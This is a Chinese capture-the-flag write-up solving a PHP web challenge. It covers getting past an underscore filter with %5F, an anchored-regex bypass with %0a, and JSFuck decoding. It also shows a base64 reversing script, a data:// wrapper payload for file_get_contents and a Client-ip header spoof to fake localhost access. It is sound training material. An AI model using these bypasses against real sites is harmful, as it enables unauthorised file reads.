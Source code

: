 主页面只有一张加载不出来的图片，查看源码，有注释如下：

```php
<!--
//1st
$query = $_SERVER['QUERY_STRING'];

 if( substr_count($query, '_') !== 0 || substr_count($query, '%5f') != 0 ){
    die('Y0u are So cutE!');
}
 if($_GET['b_u_p_t'] !== '23333' && preg_match('/^23333$/', $_GET['b_u_p_t'])){
    echo "you are going to the next ~";
}
!-->
```

要求GET提交一个名为`b_u_p_t`的参数，它要能满足`/^23333$/`的正则，并且不是字符串`23333`。其次`_`和它的url编码`%5f`要求出现0次，但是要求提交的参数名却有下划线。

对于第一个要求，因为是/^...$/形式的正则，我们在23333结尾加上一个%0a,这样正则匹配的时候，$默认匹配最后一个%0a之前的字符。

对于第二个要求，我们可以用%5F。这里用`$_SERVER['QUERY_STRING']`获取字符串是怕自动url解码，`%5F`也会被解码成`_`

因此传入`?b%5Fu%5Fp%5Ft=23333%0a`

提示flag在secrettw.php中,访问后如下：

```html
Flag is here~But how to get it?Local access only!<br/>Sorry,you don't have permission!  Your ip is :sorry,this way is banned! 
```

同时html注释中有一段仅由`[]()+!`组成的字符串，可以确定是jsfuck编码。找个网站解码，内容是`alert("post me Merak")`

POST提交Merak，值随便，然后页面给出源码:

```php
<?php 
error_reporting(0); 
include 'takeip.php';
ini_set('open_basedir','.'); 
include 'flag.php';

if(isset($_POST['Merak'])){ 
    highlight_file(__FILE__); 
    die(); 
} 
function change($v){ 
    $v = base64_decode($v); 
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) + $i*2 ); 
    } 
    return $re; 
}
echo 'Local access only!'."<br/>";
$ip = getIp();
if($ip!='127.0.0.1')
echo "Sorry,you don't have permission!  Your ip is :".$ip;
if($ip === '127.0.0.1' && file_get_contents($_GET['2333']) === 'todat is a happy day' ){
echo "Your REQUEST is:".change($_GET['file']);
echo file_get_contents(change($_GET['file'])); }
?> 
```

flag就在flag.php中，我们首先满足`getIp() === '127.0.0.1'`，然后满足`file_get_contents($_GET['2333']) === 'todat is a happy day'`最后读取的文件是`file_get_contents(change($_GET['file']))`。

从目标倒退，利用`file_get_contents`读flag.php。那么`change($_GET['file']))`就要是`flag.php`我们自然要对payload进行一个change的逆变换。

```php
<?php
function change($v){ 
    $v = base64_decode($v); 
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) + $i*2 ); 
    } 
    return $re; 
}
function change_reverse($v): string{
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) - $i*2 ); 
    } 
    $re = base64_encode($re); 
    return $re; 
}
$v = 'flag.php';     #这里一开始是用的php://filter发现读不了，就直接flag.php好了
$x = change_reverse($v);
print($x);
print("<br>");
print(change($x));
```

最后成功打印了原字符串。

然后是`file_get_contents($_GET['2333']) === 'todat is a happy day'`。`file_get_contents`的参数本来是要读的文件路径，这里有两种方法直接传入目标字符串：

1. 使用data://协议
2. 使用php://input，数据部分写入字符串

我们使用方法1，传入`?2333=data://text/plain,todat is a happy day`。

最后是`getIp() === '127.0.0.1'`因为这里getIp是定义在takeip.php中，我们不知道是怎么获取的，x-forwarded-for,x-real-ip

Client-ip都试试。最后发现是Client-ip

![image-20250912132520817](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250912132520817.png)
